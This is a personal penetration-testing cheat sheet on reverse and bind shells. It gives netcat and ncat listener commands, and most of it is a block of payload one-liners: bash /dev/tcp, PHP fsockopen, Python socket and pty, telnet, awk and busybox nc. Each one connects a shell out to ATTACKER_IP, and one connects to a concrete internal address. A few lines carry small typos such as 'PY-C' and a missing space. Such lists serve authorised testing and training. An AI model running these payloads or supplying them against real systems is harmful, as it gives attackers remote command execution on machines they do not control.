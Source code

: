 https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.revshells.com/
# Reverse shells
The connections initiate from the target system to the attackers machine which can help avoid detection from network firewalls
# Bind shell
Bin shells will bind a port on the compromised system and listen for a connection, though less popular as more detectable
# shell enhancements
## rlwrap
rlwrap can be used with nc to allows for arrow keys and history
```shell
rlwrap nc -lvnp <port>
```
## ncat
an improved version of netcat that provides extra features like encryption
```shell
ncat -lvnp <port>
```
```shell
ncat --ssl -lvnp <port>
```
# payload one liners
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f

bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1

exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done

bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5

php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'

php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'

php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'

php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'

php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'

export RHOST="ATTACKER_IP"; export RPORT=443; PY-C 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

PY-C 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'

TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF

awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

busybox nc ATTACKER_IP 443 -e sh
```